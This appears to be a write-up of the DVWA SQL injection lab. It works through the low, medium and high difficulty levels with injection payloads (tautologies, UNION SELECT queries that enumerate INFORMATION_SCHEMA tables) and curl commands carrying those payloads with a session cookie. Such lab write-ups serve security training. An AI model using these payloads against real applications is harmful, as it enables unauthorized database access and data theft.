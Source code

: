 # Difficulty - Low

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/SQL%20Injection/Sources/low.php)


The classic `' or 1 = '1` seems to work:

![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/SQL%20Injection/Pictures/1.png)


The union should be like that `' UNION ALL SELECT '1','2`:

![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/SQL%20Injection/Pictures/2.png)

Now we can esacalate:
`' union  (SELECT 1, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES)  #`:

![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/SQL%20Injection/Pictures/3.png)



# Difficulty - Medium

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/SQL%20Injection/Sources/medium.php)

This time I'll use the curl command.
A basic curl is : `curl 'http://10.10.189.172/vulnerabilities/sqli/#'  -H 'Cookie: PHPSESSID=tdlvlur0sis03jh8gcah4tr2i5; security=medium' --data-raw 'id=1&Submit=Submit'`

The union is possible with this command: 
`curl 'http://10.10.189.172/vulnerabilities/sqli/#'  -H 'Cookie: PHPSESSID=tdlvlur0sis03jh8gcah4tr2i5; security=medium' --data-raw 'id=1 UNION SELECT ALL 1,2 # &Submit=Submit'`


![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/SQL%20Injection/Pictures/4.png)


Now we can esacalate:

`curl 'http://10.10.189.172/vulnerabilities/sqli/#'  -H 'Cookie: PHPSESSID=tdlvlur0sis03jh8gcah4tr2i5; security=medium' --data-raw 'id=1 UNION (SELECT 1, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES) # &Submit=Submit'`

![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/SQL%20Injection/Pictures/5.png)


We can do this in browser either (by modifying the html) for a nicer output format:


![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/SQL%20Injection/Pictures/6.jpg)


# Difficulty - High

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/SQL%20Injection/Sources/high.php)

The classic `' or 1 = '1` seems to work here too. (without any error)

Perform a union select like that `0' union select all 1, '2`.

It works, so let's try replacing `1` with something interesting like this:

`0' union select all (select group_concat(TABLE_NAME) from INFORMATION_SCHEMA.TABLES ), '2`.

![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/SQL%20Injection/Pictures/7.png)


# Difficulty - Impossible

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/SQL%20Injection/Sources/impossible.php)

